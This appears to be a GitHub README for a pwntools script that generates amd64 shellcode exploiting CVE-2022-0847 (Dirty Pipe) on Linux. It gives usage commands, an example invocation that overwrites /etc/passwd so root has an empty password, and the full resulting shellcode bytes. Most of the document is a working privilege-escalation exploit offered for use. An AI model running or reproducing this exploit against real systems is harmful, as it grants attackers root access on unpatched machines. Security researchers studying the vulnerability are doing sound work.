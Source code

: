 # cve_2022_0847_shellcode

## Description

This repository contains a Python script (```gen_shellcode.py```), based on pwntools, to generate a shellcode implementing [CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847). <br>
The shellcode is based on this Poc: [](https://github.com/antx-code/CVE-2022-0847). <br>
I analyzed the code of the PoC and its execution with strace to catch all the system calls required to make the exploit, and at first I wrote a C program that uses ```syscall.h```; it was still not suitable for a shellcode, but it's good for reference, so I shipped it there (```tiny_cve-2022-0847.c```). <br>
The function which generates the shellcode takes 3 parameters: path of the file to write to, data to write and offset at which data must be written. <br>
An example of generated shellcode, in disassemble format from objdump, can be found in ```shellcode.asm```; it was generated with the following parameters:

- filename ```/etc/passwd```
- data ```:$1$$qRPK7m23GJusamGpoGLby/:0:0::/:/bin/sh\n```
- offset ```4```

It leaves the root with an empty password.

## Usage

```
$ python gen_shellcode.py 
Usage: gen_shellcode.py filename data offset [verbose (any value here sets verbose to True)]
```

You can import the function ```cve_2022_0847```, which generates the shellcode, to call it in other scripts, or directly use this script; there is an ```example_usage``` function which calls ```cve_2022_0847``` and makes an ELF with the shellcode. <br>
The ```cve_2022_0847``` also performs some basic sanity checks, and it prints what can go wrong with the exploit and the disassembled shellcode if ```verbose``` parameter is set. <br>
It returns the assembled shellcode. The ```main``` function calls ```cve_2022_0847``` with the command line parameters and prints the resulting shellcode in C-style hex, i.e. without decoding printable bytes. For example:

```
$ python gen_shellcode.py /etc/passwd ":$1$$qRPK7m23GJusamGpoGLby/:0:0::/:/bin/sh\n" 4
Resulting shellcode:
\x68\x72\x76\x65\x01\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x2f\x65\x74\x63\x2f\x70\x61\x73\x50\x48\x89\xe6\x6a\x9c\x5f\x31\xd2\x31\xc0\x66\xb8\x01\x01\x0f\x05\x48\x83\xec\x10\x48\x89\xe7\x6a\x16\x58\x0f\x05\x6a\x05\x5f\x31\xf6\x66\xbe\x08\x04\x6a\x48\x58\x0f\x05\x49\x89\xc7\x4d\x89\xfe\x6a\x05\x5f\x48\x81\xec\x00\x10\x00\x00\x48\x89\xe6\x31\xd2\xb6\x10\x4d\x85\xff\x74\x0a\x6a\x01\x58\x0f\x05\x49\x29\xd7\xeb\xf1\x4d\x89\xf7\x6a\x04\x5f\x4d\x85\xff\x74\x09\x31\xc0\x0f\x05\x49\x29\xd7\xeb\xf2\x6a\x03\x45\x31\xd2\x6a\x01\x41\x58\x45\x31\xc9\x6a\x03\x5f\x6a\x05\x5a\x48\x89\xe6\x31\xc0\x66\xb8\x13\x01\x0f\x05\x48\xb8\x01\x01\x01\x01\x01\x01\x01\x01\x50\x48\xb8\x2e\x72\x69\x5d\x6f\x01\x01\x01\x48\x31\x04\x24\x48\xb8\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x50\x48\xb8\x4c\x62\x79\x2f\x3a\x30\x3a\x30\x50\x48\xb8\x75\x73\x61\x6d\x47\x70\x6f\x47\x50\x48\xb8\x50\x4b\x37\x6d\x32\x33\x47\x4a\x50\x48\xb8\x3a\x31\x36\x39\x32\x33\x71\x52\x50\x48\x89\xe6\x6a\x05\x5f\x6a\x2d\x5a\x6a\x01\x58\x0f\x05\x31\xff\x31\xc0\xb0\xe7\x0f\x05
```

## Disclaimer

Supported architecture is only ```amd64```.


